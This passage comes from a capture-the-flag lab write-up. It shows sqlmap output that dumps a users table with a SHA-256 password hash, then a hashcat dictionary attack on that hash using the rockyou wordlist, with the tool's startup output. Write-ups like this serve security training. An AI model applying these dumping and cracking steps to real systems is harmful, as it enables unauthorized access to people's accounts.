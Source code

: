 

```
b 19 10:52 ..
-rw-r--r-- 1 dspo6 dspo6  823 Feb 19 10:52 post.csv
-rw-r--r-- 1 dspo6 dspo6   87 Feb 19 10:52 users.csv
(dspo6㉿kali)[~/.local/share/sqlmap/output/10.10.108.67/dump/db]$ cat users.csv 
pwd,username
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14,agent47

(dspo6㉿kali)[~/.local/share/sqlmap/output/10.10.108.67/dump/db]$ 

```
Of interest to us here is this section which shows us the users table along with the password hash.

```
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

```

## Hashcat

I switched over to my Windows PC to crack this hash so I could take advantage of the GPU using the rockyou word list (although the output indicates that I need to update the CUDA SDK on my PC).


```
PS D:\Google Drive\Cyber Security\Utils\hashcat-6.1.1> .\hashcat.exe -a 0 -m 1400 .\target\hash.txt ..\wordlists\rockyouhashcat (v6.1.1) starting...

* Device #1: CUDA SDK Toolkit installation NOT detected.
             CUDA SDK Toolkit installation required for proper device support and utilization
             Falling back to OpenCL Runtime

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
OpenCL API (OpenCL 1.2 CUDA 11.2.109) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #1: GeForce GTX 1070, 6720/8192 MB (2048 MB allocatable), 15MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
```